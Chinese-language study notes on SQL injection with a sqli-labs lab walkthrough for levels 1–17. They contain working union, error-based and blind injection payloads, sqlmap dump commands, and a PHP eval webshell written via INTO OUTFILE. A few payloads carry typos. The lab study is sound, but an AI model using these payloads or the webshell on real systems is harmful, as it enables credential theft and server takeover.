

SQL注入漏洞学习笔记+靶场总结
mysql相关知识点
Mysql 5.x数据结构
在Mysql5.0以上的版本中，为了方便管理，默认定义了information_schema数据库，用来存储数据库元信息。其中具有表schemata(数据库名)、tables（表名）、columns(列名或字段名)。
在schemata表中，schema_name字段用来存储数据库名。
在tables表中，table_schema和table_name分别用来存储数据库名和表名。
在columns表中，table_schema(数据库名)、table_name(表名)、column_name(字段名)
利用Navicat for MySQL查看结构。
增删改查
SELECT
1 | SELECT 列名称 FROM 表名称 WHERE 字段1=‘条件一’ AND 字段2=‘条件2’ |
INSERT
1 | INSERT INTO table_name(列1...列2) VALUES(值1....值2....) |
UPDATE
1 | UPDATE 表名称 SET 列名称=新值 WHERE 列名称=某值 |
DELETE
1 | DELETE FROM 表名称 WHERE 列名称=值 |
Mysql常用的几种函数：
- user():查看当前Mysql登录用户名；
- database():查看当前使用Mysql数据库名；
- version():查看当前Mysql版本。
- 扩展limit关键字 limit m,n 从m行开始，到m+n行。
注释
- 注释符：在Mysql中常见的注释符表达式：#、–空格、/**/
- /！SQL语句、\/只有Mysql可以识别，常用来绕过WAF。
例如：select * from articles where id -id ;
使用内联注释注入：select * from articles where id=-1 /*!union\*/ /\*!select\*/ 1,2,3,4
注入点查找
- and 1=1/and 1=2（整型）
- 随机输入(整型)
- -1/+1回显上下页
- 单引号（字符型/整型）
- and sleep(5)(判断页面返回时间)
注入分类
根据语法：
1.可联合查询注入：
注入前提：能使用union , 页面必须有显示位
注入方法：
- 找到注入点并判断闭合字符
- 判断数据库类型
- 猜解列数，爆显示位
- 得到基本信息（如数据库名、数据库版本等）
- 猜解表名
- 得到列名
- 得到列值
2.报错型注入
注入前提：页面没有显示位，源码使用了echo mysql_error输出了错误信息
注入速度快，语句复杂、不能使用group_concat(),只能使用limit依次猜解
注入方法：
- floor报错注入
select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
updatexml报错注入
extractvalue报错注入
3.布尔型注入
注入前提：页面存在注入但是没有显示位且源码没有使用echo mysql_error()输出报错信息。
注入方法:
- ?id=1 and (注入语句) # 根据返回结果是否相同来得到数据
- 主要利用了length()、ascii()、substr()得到结果
4.基于时间延迟注入
根据页面返回时间的不同来得到数据
异或注入
题目地址：http://123.206.87.240:9004/1ndex.php?id=1
做题步骤：检测注入=>了解过滤=>获取数据
orderby 注入
select username,password FROM users order by 1 asc;
1.直接加报错注入
2.Rand()方式
3.And payload时间盲注方式
4.其他方式
5.多语句查询(堆叠查询）
注入前提：只在MSSQL数据库存在
注入方法：一个SQL语句后跟分号后再跟一个语句即可执行两个语句。
根据类型：
- 整型
- 字符串型
- 搜索型
注入位置
- GET
- POST
- X-Forward-For
- Cookie
- User-Agent
SQL注入绕过机制
大小写绕过
如果程序中设置了过滤关键字，但是过滤过程中并没有对关键字组成进行深入分析过滤，导致只是对整体进行过滤。例如：and过滤。当然这种过滤只是发现关键字出现。并不会对关键字进行处理。
通过修改关键字内字母大小写来绕过过滤措施。例如： AnD 1=1
例如，在进行探测当前表的字段数时，使用order by数字进行探测。如果过滤了order,可以使用OrdER来进行绕过。
双写绕过
如果在程序中设置出现关键字之后替换为空，那么SQL注入攻击也不会发生。对于这样的过滤策略可以使用双写绕过。
例如：过滤了union，我们可以使用ununionion进行绕过。
编码绕过
可以利用网络中的URL在线编码，绕过SQL注入的过滤机制。
内联注释绕过
在Mysql中内联注释中的内容可以被当做SQL语句执行。

sqlmap基础使用方法
sqlmap简介
sqlmap是一个开源的渗透测试工具，可以用来进行自动化检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎,针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令
sqlmap支持MySQL, Oracle,PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird,Sybase和SAP MaxDB等数据库的各种安全漏洞检测。
sqlmap支持五种不同的注入模式：
- 基于布尔的盲注：既可以根据返回页面判断条件真假的注入。
向数据库发送true或false这样的问题，并根据应用程序赶回的信息判断结果、这种攻击的出现是因为应用程序配置为只显示常规错误，但并没有解决SQL注入存在的代码问题。
- 基于时间的盲注:即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；
- 基于报错注入：即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；
- 联合查询注入：可以使用union的情况下的注入
- 堆查询注入：可以同时执行多条语句的执行时注入
sqlmap常用参数
-h -help显示基本帮助信息
-hh 显示高级帮助信息并退出
-u指定url
-p指定参数
-D指定数据库
-T指定表
-C指定字段
–current-db当前数据库
–current-user当前用户
–dbs查询所有数据库
–tables查询所有表
–columns查询所有字段名
–dump查询记录
–techniques X(X=B布尔型，E报错型，U联合注入型，T延时型）
sqli-labs靶场实战
less-1 (基于错误的GET单引号字符型注入）
注入过程：
?id=1' or 1=1 %23
?id=1' order by 3 %23 #字段数为3
?id=1' union select 1,2,3 #显示位为2，3
爆库名
?id=1' union select 1,2,(select group_concat(schema_name) from information_schema.schemata) %23

爆表名
?id=1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')%23

爆列名
?id=1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='user') %23

爆用户名和密码
?id=1' union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) %23

使用sqlmap自动化探测
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --dbs --batch

python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D security --tables --batch

python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D security -T users --batch

python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D security -T users -C password,username --dump --batch

Less-2 （基于错误的GET整型注入）
数字型注入，去掉单引号即可。
构造同Less-1
Less-3 （基于错误的GET单引号变形字符型注入）
?id=1’) %23 回显正常
构造同Less-1
Less-4（基于错误的GET双引号字符型注入）
?id=1”)%23 回显正常
构造同Less-01
Less-5（双注入GET单引号字符型注入）
爆库名
?id=1' union select count(*),1, concat('~',(select database()),'~', floor(rand()*2)) as a from information_schema.tables group by a %23

爆表名
?id=1' union select count(*),1, concat('~',(select table_name from information_schema.tables where table_schema='security' limit 0,1),'~', floor(rand()*2)) as a from information_schema.tables group by a %23

更换Limit后的数字即可查出其他表名

爆user表列名
?id=1' union select count(*),1, concat('~',(select column_namefrom information_schema.tables where table_schema='security' and table_name='users' limit 0,1),'~',floor(rand()2)) as a from information_schema gruop by a %23
爆username password内容
?id=1'union select count(*),1, concat('~',(select username from users limit 0,1),'~', floor(rand()*2)) as a from information_schema.tables group by a %23

?id=1'union select count(*),1, concat('~',(select password from users limit 0,1),'~', floor(rand()*2)) as a from information_schema.tables group by a %23

Less-6 (双注入GET双引号字符型注入）
将单引号换成双引号即可
构造同上
Less-7(导出文件GET字符型注入）
我们首先需要打开phpstudy\PHPTutorial\MySQL\my.ini文件，在其中加上一句：secure_file_priv=“/”。


我们需要用到两个函数：
load_file()：读取本地文件
into outfile() 写文件 （路径需要使用双斜线）
我们首先判断注入点：

然后我们使用outfile函数将一句话木马写入文件。
1 | ?id=-1')) union select 1,2,'<?php @eval($_POST["crow"]);?>' into outfile "D:\\phpstudy\\PHPTutorial\\WWW\\sqli-labs-master\\Less-7\\test.php" |


之后我们使用中国菜刀连接即可。
Less-8 (基于布尔的盲注）
爆数据库长度
?id=1' and (length(database())) = 8 %23 #数据库长度为8

我们任意修改长度，页面不回显

爆库名
?id=1' and (ascii(substr((select database()) ,1,1))) = 115 %23 # s
?id=1'and(ascii(substr((select database()),2,1)))=101 %23 #e
?id=1'and(ascii(substr((select database()),3,1)))=99 %23 #c
?id=1' and (ascii(substr((select database()) ,4,1))) = 117 --+ #u
?id=1' and (ascii(substr((select database()) ,5,1))) = 114 --+ #r
and (ascii(substr((select database()) ,6,1))) = 105 --+ #i
and (ascii(substr((select database()) ,7,1))) = 116 --+ #t
?id=1' and (ascii(substr((select database()) ,8,1))) = 121 --+ #y
爆表名长度
?id=1' and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1)))=6 %23
类推以上即可：
Less-9（基于时间的GET单引号盲注）
?id=1' and sleep(5) %23

?id=1' and if(ascii(substr(database(),1,1))>115,1,sleep(5)) %23

接下来使用sqlmap自动化注入
爆数据库名：
1 | python sqlmap.py -u http://localhost:8088/sqlilabs/Less-9/?id=1 --technique T --dbms mysql --dbs --batch |
爆表名：
1 | python sqlmap.py -u http://localhost:8088/sqlilabs/Less-9/?id=1 --technique T --dbms mysql -D security --tables --batch |
爆列名：
1 | python sqlmap.py -u http://localhost:8088/sqlilabs/Less-9/?id=1 --technique T --dbms mysql -D security -T users --column --batch |
爆内容 ：
1 | python sqlmap.py -u http://localhost:8088/sqlilabs/Less-9/?id=1 --technique T --dbms mysql -D security -T users -C username,password --dump --batch |
Less-10 (基于时间的双引号盲注）
?id=1" and sleep(5) %23
同上
Less-11(基于错误的POST型单引号字符型注入）
提交方式改为POST，使用burp进行抓包修改。
uname=admin' and 1=1 %23 &passwd=admin&submit=Submit #成功登录

uname=admin' and 1=2 %23& passwd=admin&submit=Submit #不能登录

存在报错型注入，我们使用extractvalue()函数。
爆数据库
uname=admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) %23

爆表名
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) %23

爆列名
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_shcema.columns where table_name='users'),0x7e))%23

爆用户名密码
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e))%23

sqlmap自动化注入：
复制Burpsuite截断的HTTP请求数据包到文本文件中，使用Sqlmap -r 文件路径 -p 指定探测参数。
Less-12(基于错误的双引号POST型字符型变形的注入）
换成双引号即可；
爆数据库名：
uname=admin" and extractvalue(1,concat(0x7e,(select database(),0x7e))) "%23
爆表名：
uname=admin" and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) and "
爆列名：
uname=admin" and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) and "
爆用户名密码：
uname=admin“ and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e))%23
Less-13(POST单引号变形双注入）
floor 报错注入
1') union select count(*),concat_ws('~',(select user()),(select database()),floor(rand()*2)) as a from information_schema.tables group by a#
1') union select count(*),concat_ws(':',(select user()),(select database()),floor(rand()*2)) as a from information_schema.tables group by a#
爆表名
') union select count(*),concat_ws('++',(select table_name from information_schema.tables where table_schema='security' limit 0,1),floor(rand()*2)) as a from information_schema.tables group by a#
爆列名
') union select count(*),concat_ws('+',(select column_name from information_schema.columns where table_name='users' limit 0,1),floor(rand()*2)) as a from information_schema.tables group by a#
爆数据
') union select count(*),concat_ws(';',(select username from users limit 0,1),floor(rand()*2)) as a from information_schema.tables group by a#
Less-14(POST双引号变形双注入）
将单引号闭合换成双引号即可。
过程同上。
Less-15(基于bool型/时间延迟单引号POST型盲注）
使用延时注入
admin' and if(ascii(substr(database(),1,1))>115,1,sleep(5)) #
逐个判断即可；
Less-16(基于bool型/时间延迟双引号POST型盲注）
根据源码我们可以知道闭合方法： 使用”）进行闭合
使用延时注入
同上。
Less-17(基于错误的更新查询POST注入）
爆数据库版本
uname=admin&passwd=1' and (updatexml(1,concat(0x5c,version(),0x5c),1))#submit=submit
爆表名
uname=admin&passwd=1' and (updatexml(1,concat(0x5c,(select table_name from information_schema.tables where table_schema='security' limit 3,1),0x5c),1))#submit=submit
爆字段名
uname=admin&passwd=1' and (updatexml(1,concat(0x5c,(select password from (select password from users where username='admin')aa),0x5c),1))#submit=submit
参考文章
https://blog.csdn.net/SKI_12/article/details/56279676